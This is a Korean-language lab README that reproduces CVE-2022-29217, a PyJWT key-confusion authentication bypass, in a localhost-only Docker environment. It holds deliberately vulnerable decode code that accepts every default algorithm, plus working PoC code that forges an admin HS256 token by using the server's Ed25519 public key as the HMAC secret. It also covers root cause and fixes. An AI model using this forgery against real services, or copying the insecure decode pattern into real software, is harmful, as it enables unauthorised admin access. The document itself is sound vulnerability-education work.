



# PyJWT 알고리즘/키 혼동 인증 우회 (CVE-2022-29217)

> 이 환경은 교육 및 로컬 실습 전용입니다. PoC는 안전을 위해 localhost만 허용합니다.

## 1. 취약점 요약

PyJWT는 Python용 JSON Web Token 구현체입니다. CVE-2022-29217은 PyJWT가 HMAC 키를 검사할 때 일부 OpenSSH 공개키 형식을 차단하지 않아 발생하는 키 혼동(key confusion) 취약점입니다.

취약한 서버가 비대칭 알고리즘과 대칭 알고리즘을 함께 허용하면 공격자는 공개된 비대칭 공개키를 HMAC 비밀키처럼 사용해 임의의 JWT를 서명할 수 있습니다. 서버도 같은 공개키로 서명을 검증하므로 위조된 토큰을 정상 토큰으로 받아들입니다.

이 실습에서 FastAPI는 HTTP 인터페이스만 제공합니다. 취약점의 대상은 **PyJWT 2.3.0**의 키 형식 검증 로직입니다.

| 항목 | 내용 |
| --- | --- |
| CVE | CVE-2022-29217 |
| 대상 | PyJWT |
| 취약 버전 | 1.5.0 이상 2.4.0 미만 |
| 실습 버전 | 2.3.0 |
| 패치 버전 | 2.4.0 이상 |
| 취약점 유형 | JWT 알고리즘/키 혼동, 인증 우회 |
| CWE | CWE-327: Use of a Broken or Risky Cryptographic Algorithm |
| Risk Score | 7.5 High |
| CVSS 벡터 | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N |

## 2. 환경 구성

- Docker Desktop 또는 Docker Engine
- Docker Compose v2
- 호스트 포트: `127.0.0.1:8000`
- 컨테이너: Python 3.11, FastAPI, Uvicorn, PyJWT 2.3.0

임의의 제3자 취약 이미지를 사용하지 않습니다. 저장소에 포함된 Dockerfile이 digest로 고정된 공식 Python 베이스 이미지 위에 버전이 고정된 의존성과 실습 애플리케이션을 직접 빌드합니다.

```bash
cd PyJWT/CVE-2022-29217
docker compose up --build -d
docker compose ps
```

서비스 상태를 확인합니다.

```bash
curl http://127.0.0.1:8000/health
```

예상 결과:

```json
{"status":"ok"}
```

컨테이너가 `healthy` 상태이며 서비스가 localhost에만 노출된 것을 확인합니다.



`http://127.0.0.1:8000/docs`에서 FastAPI가 제공하는 실습 API 목록을 확인할 수 있습니다.



## 3. 취약 조건

다음 조건이 모두 충족되어야 합니다.

1. 서버가 PyJWT 1.5.0 이상 2.4.0 미만 버전을 사용합니다.
2. 서버가 EdDSA와 HS256을 포함한 여러 JWT 알고리즘을 허용합니다.
3. 검증에 Ed25519 OpenSSH 공개키(`ssh-ed25519 ...`)를 사용합니다.
4. 공격자가 서버의 공개키를 알고 있습니다. 공개키는 본래 비밀 정보가 아닙니다.
5. 서버가 토큰의 권한 정보를 신뢰해 인가 결정을 수행합니다.

이 실습의 취약한 코드는 다음과 같습니다.

```python
jwt.decode(
    token,
    PUBLIC_KEY,
    algorithms=jwt.algorithms.get_default_algorithms(),
)
```

애플리케이션이 `algorithms=["EdDSA"]`처럼 기대하는 알고리즘을 명시적으로 제한하면 이 공격은 성립하지 않습니다.

## 4. 재현 절차

### 4.1 정상 사용자 접근 실패 확인

정상 사용자 토큰을 발급받습니다.

```bash
curl -s -X POST http://127.0.0.1:8000/login
```

발급된 토큰의 역할은 `user`이므로 `/admin` 접근 시 HTTP 403이 반환됩니다. 아래 자동 PoC는 이 정상 동작을 먼저 검사합니다.

### 4.2 자동 PoC 실행

호스트에 Python 의존성을 별도로 설치할 필요 없이 실행 중인 컨테이너 안에서 PoC를 실행합니다.

```bash
docker compose exec pyjwt-vulnerable python poc.py --target http://127.0.0.1:8000
```

PoC는 다음 작업을 자동으로 수행합니다.

1. 정상 `role=user` EdDSA 토큰으로 `/admin` 접근이 거부되는지 확인
2. `/public-key`에서 `ssh-ed25519` 공개키 획득
3. 공개키를 HMAC 비밀키로 사용하여 `role=admin` HS256 토큰 위조
4. 위조 토큰으로 `/admin`에 접근하여 인증 우회 확인

## 5. PoC 핵심 코드

```python
public_key = requests.get(f"{target}/public-key").json().encode("ascii")

forged_token = jwt.encode(
    {"sub": "attacker", "role": "admin"},
    public_key,
    algorithm="HS256",
)

response = requests.get(
    f"{target}/admin",
    headers={"Authorization": f"Bearer {forged_token}"},
)
```

전체 코드는 [`poc.py`](poc.py)에서 확인할 수 있습니다. PoC는 외부 시스템에 사용되지 않도록 `127.0.0.1`, `localhost`, `::1` 대상만 허용합니다.

## 6. 실행 결과

정상 사용자 토큰은 관리자 API에서 거부되지만, 위조한 HS256 관리자 토큰은 HTTP 200 응답을 받습니다.

```text
[*] Legitimate user token -> /admin: HTTP 403
[*] Public key type: ssh-ed25519
[*] Forged an HS256 token using the Ed25519 public key
[*] Forged admin token -> /admin: HTTP 200
[+] SUCCESS: CVE-2022-29217 authentication bypass reproduced
```

실제 Docker 환경에서 실행한 PoC 결과입니다. 정상 사용자는 HTTP 403으로 거부되고 위조된 관리자 토큰은 HTTP 200으로 허용됩니다.



## 7. 원인 분석

PyJWT 2.3.0의 HMAC 키 검사는 PEM 공개키, 인증서, RSA 공개키 및 `ssh-rsa` 문자열을 차단했지만 `ssh-ed25519` 등 다른 OpenSSH 공개키 형식을 포괄적으로 식별하지 못했습니다. 따라서 Ed25519 공개키가 HS256 비밀키로 전달되어도 거부되지 않았습니다.

PyJWT 2.4.0에서는 제한된 문자열 목록 대신 PEM 및 SSH 키 형식을 판별하는 공통 검사로 변경하여 비대칭 공개키가 HMAC 키로 사용되는 것을 차단합니다.

## 8. 대응 방안

### 라이브러리 업데이트

PyJWT를 2.4.0 이상으로 업데이트합니다.

```text
PyJWT[crypto]>=2.4.0
```

### 허용 알고리즘 고정

토큰 헤더의 `alg` 값을 신뢰하지 말고 서버가 기대하는 알고리즘만 명시합니다.

```python
payload = jwt.decode(token, PUBLIC_KEY, algorithms=["EdDSA"])
```

### 추가 방어

- 대칭키와 비대칭키를 동일한 검증 경로에서 사용하지 않습니다.
- 토큰의 발급자(`iss`), 대상자(`aud`), 만료 시간(`exp`)을 검증합니다.
- 비정상적인 알고리즘 변경과 관리자 권한 토큰 발급을 모니터링합니다.

## 9. 평가 기준

### Risk Score: 7.5/10.0

- 네트워크를 통해 원격으로 악용할 수 있습니다.
- 사전 인증이나 사용자 상호작용이 필요하지 않습니다.
- 성공하면 관리자 권한 등 토큰의 무결성을 훼손할 수 있습니다.
- 이 PoC에서는 호스트 파일 접근이나 명령 실행이 아니라 관리자 API 인증 우회를 확인합니다.

### Reproducibility: 90%

컨테이너·네트워크·볼륨을 제거하고 빌드 캐시를 사용하지 않은 상태에서 이미지를 다시 빌드한 뒤 PoC를 반복 실행하여 같은 결과를 확인했습니다. 베이스 이미지 digest와 모든 Python 의존성 버전을 고정했고, 단일 `docker compose` 명령으로 환경을 구축할 수 있습니다. 최초 빌드 시 공식 Docker Hub 및 PyPI에 접근해야 한다는 외부 네트워크 조건을 반영하여 90%로 평가했습니다.

## 10. 종료 및 정리

```bash
docker compose down -v --remove-orphans
```

## 11. 참고 자료

- [GitHub Security Advisory GHSA-ffqj-6fqr-9h24](https://github.com/jpadilla/pyjwt/security/advisories/GHSA-ffqj-6fqr-9h24)
- [NVD CVE-2022-29217](https://nvd.nist.gov/vuln/detail/CVE-2022-29217)
- [PyJWT 2.4.0 변경 기록](https://pyjwt.readthedocs.io/en/2.4.0/changelog.html)
- [PyJWT 수정 커밋](https://github.com/jpadilla/pyjwt/commit/9c528670c455b8d948aff95ed50e22940d1ad3fc)
